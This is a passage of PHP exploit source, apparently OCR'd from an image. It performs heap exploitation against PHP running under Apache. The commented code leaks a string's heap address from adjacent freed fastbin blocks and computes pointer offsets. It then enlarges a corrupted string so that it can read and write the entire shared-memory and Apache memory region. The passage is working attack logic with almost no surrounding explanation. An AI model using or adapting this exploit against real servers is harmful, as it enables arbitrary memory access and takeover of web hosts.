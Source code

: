             # Assuming the allocation was contiguous, memory looks like this, with
            # 0x70-sized fastbins:
            #   [zend_string:abc]
            #   [zend_string:protector]
            #   [FREE#1]
            #   [FREE#2]
            # Therefore, the address of the 2nd free block is in the first 8 bytes
            # of the first block: 0x70 * 2 - 24
            $address = str2ptr($this->abc, 0x70 * 2 - 24);
            # The address we got points to FREE#2, hence we're |block| * 3 higher in
            # memory
            $address = $address - 0x70 * 3;
            # The beginning of the string is 24 bytes after its origin
            $address = $address + 24;
            o('Address of $abc: 0x' . dechex($address));
            o('');

            # Compute the size required for our string to include the whole SHM and
            # apache's memory region
            $distance = 
                max($addresses['apache'][1], $addresses['shm'][1]) -
                $address
            ;
            $x->d = $distance;

            # We can now read/write in the whole SHM and apache's memory region.
